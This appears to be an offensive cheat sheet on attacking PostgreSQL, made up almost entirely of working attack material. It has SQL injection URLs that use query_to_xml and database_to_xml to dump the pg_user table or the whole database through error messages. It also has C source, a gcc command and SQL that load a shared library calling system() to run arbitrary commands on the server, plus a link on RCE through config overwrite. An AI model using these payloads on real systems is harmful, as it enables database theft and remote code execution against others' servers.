 # Postgres

### Query\_To\_XML

Example:

We can get the result of a query as xml, making data exfiltration a lot faster.

```text
http://127.0.0.1:5000/?order=id&sort=,(CASE%20WHEN%20((SELECT%20CAST(CHR(32)||(SELECT%20query_to_xml('select%20*%20from%20pg_user',true,true,''))%20AS%20NUMERIC)=%271%27))%20THEN%20name%20ELSE%20note%20END)
```

### Database\_To\_XML

We can even get the complete database as XML in a single query!

```text
http://127.0.0.1:5000/?order=id&sort=,(CASE%20WHEN%20((SELECT%20CAST(CHR(32)||(SELECT%20database_to_xml(true,true,''))%20AS%20NUMERIC)=%271%27))%20THEN%20name%20ELSE%20note%20END)
```

### RCE via Config File Overwrite

[https://pulsesecurity.co.nz/articles/postgres-sqli](https://pulsesecurity.co.nz/articles/postgres-sqli)

### Load shared library

```bash
sudo apt-get install postgresql-server-dev-11
```

```c
#include "postgres.h"
#include "fmgr.h"
#include <stdlib.h>

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif


Datum exec(PG_FUNCTION_ARGS){
    system("<cmd>");

};
PG_FUNCTION_INFO_V1(exec);
```

```bash
gcc xct.c -I`pg_config --includedir-server` -fPIC -shared -o xct.so
```

```sql
CREATE OR REPLACE FUNCTION exec()  RETURNS text AS  '/tmp/xct.so', 'exec' LANGUAGE C STRICT;
SELECT exec();
```

